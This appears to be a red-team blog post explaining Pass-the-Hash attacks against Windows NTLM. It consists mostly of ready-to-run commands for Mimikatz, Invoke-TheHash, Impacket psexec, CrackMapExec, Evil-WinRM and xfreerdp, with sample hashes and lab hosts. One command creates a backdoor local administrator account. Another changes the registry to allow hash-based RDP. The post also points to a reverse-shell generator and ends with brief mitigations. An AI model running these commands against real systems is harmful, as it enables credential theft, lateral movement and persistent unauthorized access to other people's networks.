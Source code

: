 ```yaml
---

title: "Pass the Hash (PtH) Attack: A Practical Guide"
date: 2025-05-25 00:00:00 +0000
categories: \[Security, Red Team]
tags: \[pass-the-hash, NTLM, windows, pentesting, mimikatz, impacket, crackmapexec]
pin: false
---
```


A Pass the Hash (PtH) attack is a technique in which an attacker uses a password hash to authenticate to remote systems instead of the plaintext password. This method exploits authentication protocols like NTLM that accept hashed credentials without decrypting them. Since the hash remains valid until the user changes the password, it can be reused multiple times, making it a powerful attack vector.

---

### Requirements for a PtH Attack

To execute a PtH attack, the attacker typically needs elevated privileges on the target system to extract password hashes. Common methods to acquire these hashes include:

* Dumping the Security Account Manager (SAM) database.
* Extracting hashes from the NTDS.dit file on a Domain Controller.
* Retrieving hashes from memory (e.g., lsass.exe).

---

## Windows NTLM Overview

NTLM (New Technology LAN Manager) is a challenge-response authentication protocol still used in Windows environments, primarily for backward compatibility. However, it lacks modern security features like salting passwords, making it vulnerable to PtH attacks.

Read more at Microsoft's documentation: [NTLM Authentication](https://learn.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)

---

## Performing PtH Attacks

### 1. **Using Mimikatz (Windows)**

Mimikatz includes the `sekurlsa::pth` module, which starts a new process with a specified user's hash:

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe"
```

Reference: [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)

---

### 2. **Invoke-TheHash (Windows)**

Invoke-TheHash is a PowerShell toolset for PtH attacks using SMB and WMI:

```powershell
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add"
```

For a reverse shell, use: [https://www.revshells.com](https://www.revshells.com)

Tool: [Invoke-TheHash GitHub](https://github.com/Kevin-Robertson/Invoke-TheHash)

---

### 3. **Impacket PsExec (Linux)**

Impacket provides various Python-based tools for network attacks:

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Impacket GitHub](https://github.com/fortra/impacket)

---

### 4. **CrackMapExec (Linux)**

CrackMapExec is ideal for automating enumeration and attack steps in AD environments:

```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

Documentation: [NetExec Wiki](https://netexec.readthedocs.io/en/latest/)

---

### 5. **Evil-WinRM (Linux)**

Evil-WinRM allows PowerShell Remoting with hashes:

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

Tool: [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)

---

### 6. **Using xfreerdp for RDP (Linux)**

Ensure Restricted Admin Mode is enabled, then:

```bash
xfreerdp /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

More on configuring RDP for PtH: [FreeRDP Wiki](https://github.com/FreeRDP/FreeRDP/wiki)

---

## UAC and LocalAccountTokenFilterPolicy

UAC restricts remote administrative access for local accounts unless configured properly. Modify these registry keys to enable remote use:

```bash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

For more details, see Will Schroeder’s blog: [Pass-the-Hash Is Dead: Long Live LocalAccountTokenFilterPolicy](https://www.harmj0y.net/blog/redteaming/pass-the-hash-is-dead-long-live-localaccounttokenfilterpolicy/)

---

## Conclusion

Pass the Hash remains a critical threat in Windows environments relying on NTLM. Tools like Mimikatz, Impacket, and CrackMapExec make exploitation straightforward if proper defenses aren't in place. Organizations should consider mitigating PtH by disabling NTLM where possible, enforcing strong credential hygiene, using LAPS, and monitoring authentication logs.

**Always test ethically and in controlled environments. For educational use only.**
